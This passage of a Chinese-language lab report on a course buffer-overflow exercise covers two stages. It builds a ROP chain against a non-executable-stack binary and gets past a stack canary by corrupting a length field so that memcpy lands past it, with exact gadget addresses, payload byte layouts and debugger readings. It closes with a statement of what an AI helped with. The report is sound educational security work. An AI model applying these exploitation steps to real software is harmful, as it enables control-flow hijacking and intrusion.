三是 `call` 与栈的关系。`call` 会把返回地址压到栈上，位置正好是 `0x...fe8`，也就是此前改写过的返回地址格。那一格此时已经被 `ret` 取走，覆盖它不影响控制流。

## 阶段四 ROP

本阶段的目标二进制换成 `attack/dark-calc-nx`，目标与阶段三相同：让 `grade_eval` 以参数 4 被调用，打印 `Hope A will be your grade!`。差别在于这份程序的栈不可执行，把机器码放进数组再跳过去的做法会立刻失败，需要改用程序里已有的指令片段。

### 1 输入格式与判定位置

输入仍是一行文本，由 `gets` 读入 `input` 的 16 字节数组。`input` 的结构与 `dark-calc` 相同，`leave` 位于 `0x4018c6`，也就是 `input+94`。

判定位置与阶段三一样，在 `grade_eval` 内部：参数等于 4 才打印。本阶段不涉及外部程序，也没有祖先检查。

### 2 保护与地址

`readelf -lW` 显示 `GNU_STACK` 的标志为 `RW`，运行时的栈段权限为 `rw-p`。与 `dark-calc` 对比，后者由构造函数 `mmap` 出 `rwxp` 的匿名段，可执行位存在；这一份没有那层安排，`$rsp` 落在常规 `[stack]` 段。

代码段固定在 `0x400000` 起，程序没有启用 PIE。本阶段用到的地址：

| 名称 | 地址 | 说明 |
| --- | --- | --- |
| `grade_eval` | `0x401978` | 被调用的函数 |
| `pop %rdi; ret` | `0x401a33` | 指令片段，两字节 |
| 数组首字节 | 每次运行不同 | 栈地址受 ASLR 影响 |

### 3 不可执行栈带来的变化

阶段二与阶段三的成功依赖两件事：把机器码写进数组，再把返回地址指向数组首字节。第二件事在本阶段仍然可行，第一件事不可行，因为 CPU 拒绝从没有执行权限的页取指。

替代方案是用程序自身的指令片段拼出一次调用。每个片段以 `ret` 结尾，返回地址依次指向它们，形成一条链。链上不需要写机器码，只需要写片段地址与参数。

### 4 链条设计

片段来自 `__libc_csu_init` 的尾部。该函数结尾是一串弹栈：

```asm
401a2a: pop %rbx
401a2b: pop %rbp
401a2c: pop %r12
401a2e: pop %r13
401a30: pop %r14
401a32: pop %r15
401a34: ret
```

`0x401a32` 处的字节是 `41 5f`，解码为 `pop %r15`。从下一个字节 `0x401a33` 开始读，字节是 `5f c3`，解码为 `pop %rdi` 与 `ret`。`41` 是 REX 前缀，作用是把 `5f` 从 `%rdi` 扩展到 `%r15`；跳过它，同一条指令的尾部就换了一种含义。

链条共三段，接在 24 字节填充之后：

| 偏移 | 长度 | 内容 | 作用 |
| --- | --- | --- | --- |
| 0 到 23 | 24 | `0x41` 填充 | 占满数组与保存的 `rbp` |
| 24 到 31 | 8 | `0x401a33` | `ret` 跳到这里，弹出下一个值 |
| 32 到 39 | 8 | `4` | 被 `pop %rdi` 送进 `%rdi` |
| 40 到 47 | 8 | `0x401978` | `ret` 跳到这里，进入 `grade_eval` |
| 48 | 1 | 换行符 | 结束 `gets` |

总长 49 字节。填充用 `0x41`（字符 `A`），不含 `0x0a`。

链条上没有一个值来自栈：两个是代码段地址，一个是立即数。ASLR 每次给栈换地址，链的顺序与内容都不受影响，这也是本阶段能够使用固定字节的原因。

### 5 落位与运行结果

停在 `input+94`（`leave`）之前，`x/6gx $rbp-0x10` 的读数：

| 地址 | 内容 | 含义 |
| --- | --- | --- |
| `$rbp-0x10` | `0x4141414141414141` | 填充 |
| `$rbp-0x8` | `0x4141414141414141` | 填充 |
| `$rbp+0` | `0x4141414141414141` | 保存的 `rbp` 被填充覆盖 |
| `$rbp+8` | `0x401a33` | 新的返回地址，指向 `pop %rdi; ret` |
| `$rbp+0x10` | `0x4` | 参数 |
| `$rbp+0x18` | `0x401978` | `grade_eval` 入口 |

填充覆盖到保存的 `rbp` 是必然的，因为填充长度为 24 字节，而数组只有 16 字节。

运行后输出：

```text
 Hope A will be your grade!
```

`grade_eval` 打印完毕返回时，栈上已经没有合法地址，进程以 `SIGSEGV` 终止，退出码 139。成功信息在此之前已经写出，不影响判定。

链条构造与运行结果的截图如下。


### 6 四个阶段的对照

| 阶段 | 二进制 | 栈权限 | 控制流来源 | 是否需要栈地址 |
| --- | --- | --- | --- | --- |
| 阶段一 | `dark-calc` | `rwxp` | 不改变控制流，只观察 | 不涉及 |
| 阶段二 | `dark-calc` | `rwxp` | 数组里的机器码 | 需要，`0x721000800fd0` |
| 阶段三 | `dark-calc` | `rwxp` | 数组里的机器码 | 需要，`0x721000800fd0` |
| 阶段四 | `dark-calc-nx` | `rw-p` | 程序里的指令片段 | 不需要 |

四关用的是同一次越界写入：24 字节填充之后就是返回地址。变化的是返回地址指向什么，以及那里有没有可执行的字节。

### 7 记录

一是可执行位决定了攻击面。同样的越界写入，栈可执行时可以直接放机器码，栈不可执行时只能借用已有指令。判断一份程序属于哪种情况，看 `GNU_STACK` 标志与 `$rsp` 所在段的权限，两处要一致。

二是从指令中间取指。`0x401a32` 是 `pop %r15; ret`，`0x401a33` 才是 `pop %rdi; ret`，差一个字节就是不同的寄存器。`41` 这类 REX 前缀改变的是寄存器编号，跳过前缀，指令的语义随之改变。

三是链条与栈的消费节奏。`ret` 每次取 8 字节，`pop %rdi` 再取 8 字节，所以片段地址、参数、目标地址必须严格按这个顺序排列，错一格就会把参数当地址用。

四是链上不出现栈地址带来的稳定性。ASLR 让栈每次不同，而这条链只引用代码段与立即数，因此不需要先泄漏地址，也不需要关闭随机化。

## 阶段五 Canary

本阶段的目标二进制是 `attack/dark-log`，目标仍是让 `grade_eval(4)` 打印 `Hope A will be your grade!`。与前四关不同的是，这份程序的 `input` 里加了栈保护，数组与返回地址之间多了一个随机值。

### 1 输入格式与判定位置

输入仍是一行文本，由 `gets` 读入 `struct log_frame` 的第一个字段 `expression`，没有长度检查。

判定位置仍在 `grade_eval` 内部：参数等于 4 才打印。`input` 返回之前还有一处判定，属于栈保护：把帧内保存的 canary 与 `%fs:0x28` 比较，不等就调用 `__stack_chk_fail` 终止进程。

### 2 关键数据结构

```c
struct log_frame {
  char expression[128];
  char logMsg[128];
  int len;
  char pad[8];
};
```

`input` 的帧基址为 `%rbp`，数组从 `rbp-0x120` 开始，帧大小为 `0x120`。各字段相对数组首字节的偏移：

| 字段 | 表达式 | 相对数组偏移 |
| --- | --- | --- |
| `expression` | `rbp-0x120` | 0 |
| `logMsg` | `rbp-0xa0` | `0x80`，128 |
| `len` | `rbp-0x20` | `0x100`，256 |
| `pad` | `rbp-0x1c` | `0x104`，260 |
| canary | `rbp-0x8` | `0x118`，280 |
| 返回地址 | `rbp+8` | `0x128`，296 |

这些偏移由三处指令锚定：`gets` 的参数是 `lea -0x120(%rbp)`，`len` 的清零是 `movl $0x0,-0x20(%rbp)`，canary 的来源是 `mov %fs:0x28,%rax` 后存入 `-0x8(%rbp)`。

### 3 栈保护的工作方式

```asm
4016e1: mov  %fs:0x28,%rax
4016ea: mov  %rax,-0x8(%rbp)      # 存入 canary
...
4017df: mov  -0x8(%rbp),%rax      # 返回前读回
4017e3: xor  %fs:0x28,%rax
4017ec: je   4017f3
4017ee: call __stack_chk_fail@plt
```

`%fs:0x28` 是线程局部的随机值，进程启动时由内核或加载器写入。canary 放在 `rbp-0x8`，即数组与返回地址之间。`gets` 不认识数组长度，任何覆盖返回地址的输入都会先经过这一格，于是检查必然失败。

因此直接沿前几关的思路铺满输入行不通。

### 4 绕过思路

`input` 里有一处细节：`memcpy` 的目的地不是固定的。

```c
memcpy(f.logMsg + f.len, f.expression, sizeof(f.expression));
```

展开成指令后，目的地址的算法是：

```asm
401719: mov  -0x20(%rbp),%eax     # 取 len
40171e: lea  -0x120(%rbp),%rdx
401725: sub  $0xffffffffffffff80,%rdx   # 加 0x80，指向 logMsg
401729: add  %rdx,%rax            # 加上 len
```

目的地址等于数组首字节加 `0x80` 再加 `len`。复制源是数组开头，长度固定 128 字节，只有目的地随 `len` 变化。

`len` 位于偏移 256，正好在 `gets` 的写入范围内，因此可以被输入改写。把 `len` 设为 168，复制的起点就从 `rbp-0xa0` 移到 `rbp+8`，也就是返回地址那一格。128 字节的复制把链条写进返回地址之后的栈区，canary 那一格完全没碰。

### 5 链条与 `len`

链条沿用前两关的三段结构：

| 偏移 | 长度 | 内容 | 作用 |
| --- | --- | --- | --- |
| 0 到 7 | 8 | `0x4018a3` | `pop %rdi; ret` |
| 8 到 15 | 8 | `4` | 参数 |
| 16 到 23 | 8 | `0x401677` | `grade_eval` 入口 |
| 24 到 255 | 232 | `0x41` 填充 | 补到 `len` 字段 |
| 256 到 259 | 4 | `168` | `len`，小端为 `a8 00 00 00` |
| 260 | 1 | 换行符 | 结束 `gets` |

总长 261 字节。`gets` 读完会在第 260 个字节补 `0x00`，那个位置属于 `pad` 区，与 canary 相隔 20 字节。

片段的来源与上一关相同：`0x4018a3` 是 `__libc_csu_init` 尾部 `pop %r15; ret` 中的第二个字节起，`41 5f` 是 `pop %r15`，跳过 `41` 得到 `5f c3`。

### 6 验证与截图

停在 `0x4017df`（canary 检查开始前一条），`x/4gx $rbp+8` 与 `x/gx $rbp-8` 的读数：

| 位置 | 内容 | 含义 |
| --- | --- | --- |
| `$rbp+8` | `0x4018a3` | 新的返回地址 |
| `$rbp+0x10` | `0x4` | 参数 |
| `$rbp+0x18` | `0x401677` | `grade_eval` |
| `$rbp+0x20` | `0x4141414141414141` | 复制带来的填充 |
| `$rbp-8` | `0x...00` 的随机值 | canary 原值，未被改动 |

canary 最低字节为 `00`，与预期一致；其余七个字节每次运行都不同。

运行后输出：

```text
 Hope A will be your grade!
```

随后进程以 `SIGSEGV` 终止，退出码 139。

落位读数与运行输出的记录如下。


### 7 记录

一是偏移的基准。`logMsg` 相对 `%rbp` 是 `-0xa0`，相对数组首字节是 `0x80`；`len` 的算式用的是后者，混用两个基准会让 `len` 差 32。

二是片段地址的换算。每个二进制的 `.text` 起始地址不同，`dark-log` 是 `0x401590`，沿用上一关的 `0x401700` 会搜出错误候选。搜到之后必须用 `objdump --start-address` 从那个地址反汇编一次，确认是 `pop %rdi` 与 `ret`。

三是复制的方向。`gets` 的越界写与 `memcpy` 的复制是两个独立动作：前者决定 `len` 的取值，后者决定链条落到哪里。绕过 canary 靠的是后者，理解这一点才知道为什么要改 `len`。

四是 canary 的最低字节。它的最低字节恒为 `00`，这是设计使然：字符串函数遇到它就会停下。这一点在本关没有用到，在需要泄漏 canary 的场景里是重要线索。

## AI 使用说明

本报告的观察、命令执行、数值采集与 payload 构造均由本人完成。AI 在过程中承担讲解、脚手架与整理三类工作，各阶段的分工如下。

| 阶段 | AI 提供的帮助 | 本人完成的部分 |
| --- | --- | --- |
| 阶段一 | 讲解栈帧、`leave` 与 `ret`；整理问题清单；生成 `01_input_annotated.S` 与 GDB 观察脚本 | 寄存器读数、五种长度的实验、字节对照与结论 |
| 阶段二 | 讲解 `mmap` 参数与标志位、`__wrap_main` 的换栈动作；导出两份反汇编 | 固定栈的确认、机器码编写与汇编、payload 构造与验证 |
| 阶段三 | 讲解 `grade_eval` 的判定逻辑与格式串作用、`movabs` 与 `mov` 的差别 | 三条指令的编写、落位检查与运行 |
| 阶段四 | 讲解 ASLR、`GNU_STACK` 标志、REX 前缀对 `pop` 的影响；导出 `04_dark-calc-nx.S` | 片段搜索与确认、链条构造、49 字节 payload |
| 阶段五 | 讲解 canary 的存入与比较、结构体偏移的推导方法、`memcpy` 目的地可控这一线索 | 偏移计算、片段地址确认、`len` 取值、261 字节 payload |

三点补充说明。

第一，报告中的数值都来自本人执行的命令。AI 给出的示例数值只用于对照，出现不一致时以实测为准；例如阶段五第一次试算 `len` 时用了 `%rbp` 基准得到 136，与 GDB 读数不符，改用数组基准后得到 168。

第二，正文中标注为“推算”的内容是由已知指令与布局推出、尚未单独验证的部分，例如阶段二长度 31 时零字节落在返回地址最高字节。这类结论在文中都写明了依据，没有与实测混在一起。

第三，payload 与结论由本人编写，AI 的作用是提示方向与指出错误。阶段四中 `0x401a32` 与 `0x401a33` 的差别、阶段五中 `len` 基准的混淆，都是先由本人算出、经讨论后修正的；阶段五首次运行时链条整体偏移 8 字节，也是根据 GDB 读数定位到 `len` 写成了 160。

报告排版由 AI 协助完成，包括 pandoc 构建参数、图片浮动体的处理与图注格式；内容与数字经本人核对。
